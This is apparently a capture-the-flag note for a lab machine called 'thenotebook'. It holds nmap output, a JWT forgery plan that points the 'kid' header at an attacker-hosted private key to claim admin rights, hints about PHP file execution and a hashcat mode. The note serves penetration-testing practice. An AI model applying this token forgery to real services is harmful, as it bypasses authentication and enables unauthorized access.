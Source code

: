 # thenotebook

- ip: 10.10.10.230
- os: `Linux thenotebook 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux`

## nmap
```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
10010/tcp filtered rxapi
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## rxapi

## web
- JWT token manipulation via `kid` (key id)
  - host a private key on our own server
  - sign a RS256 token with our key
- username/password/email = `a/a/a@a.com`

```
{"typ":"JWT","alg":"RS256","kid":"http://localhost:7070/privKey.key"}
{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.5:9000/jwtrs256.key"}

{"username":"a","email":"a@a.com","admin_cap":true}
```

### "is my data safe? - noah
```
noah
I wonder is the admin good enough to trust my data with?
```

### "The Notebook Quotes" - noah
```
"I am nothing special, of this I am sure. I am a common man with common thoughts and I've led a common life. There are no monuments dedicated to me and my name will soon be forgotten, but I've loved another with all my heart and soul, and to me, this has always been enough.." ― Nicholas Sparks, The Notebook

"So it's not gonna be easy. It's going to be really hard; we're gonna have to work at this everyday, but I want to do that because I want you. I want all of you, forever, everyday. You and me... everyday." ― Nicholas Sparks, The Notebook "You can't live your life for other people. You've got to do what's right for you, even if it hurts some people you love." ― Nicholas Sparks, The Notebook "You are, and always have been, my dream." ― Nicholas Sparks, The Notebook "You are my best friend as well as my lover, and I do not know which side of you I enjoy the most. I treasure each side, just as I have treasured our life together." ― Nicholas Sparks, The Notebook "I love you. I am who I am because of you. You are every reason, every hope, and every dream I've ever had, and no matter what happens to us in the future, everyday we are together is the greatest day of my life. I will always be yours. " ― Nicholas Sparks, The Notebook "We fell in love, despite our differences, and once we did, something rare and beautiful was created. For me, love like that has only happened once, and that's why every minute we spent together has been seared in my memory. I'll never forget a single moment of it." ― Nicholas Sparks, The Notebook
```

### "Backups are scheduled" - admin
```
Finally! Regular backups are necessary. Thank god it's all easy on server.
```

### "Need to fix config" - admin
```
Have to fix this issue where PHP files are being executed :/. This can be a potential security issue for the server.
```

## hashcat
- **sha3-256**. hashcat (17400)

